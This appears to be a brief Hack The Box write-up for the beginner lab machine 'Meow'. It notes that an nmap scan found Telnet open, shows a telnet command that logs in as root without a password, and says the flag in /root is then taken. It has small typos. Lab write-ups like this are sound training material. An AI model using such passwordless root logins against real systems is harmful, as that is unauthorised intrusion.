 [HTB] Meow

Config:
```bash
$ export IP=<machine_ip>
```


NMAP scan results:
- `Telnet` service is open on port.

Connect to `root` with `telnet` on port 23:
```bash
$ telnet -l root -4 $IP
```
Seen a flat in the `/root`. Yank it and we're done!
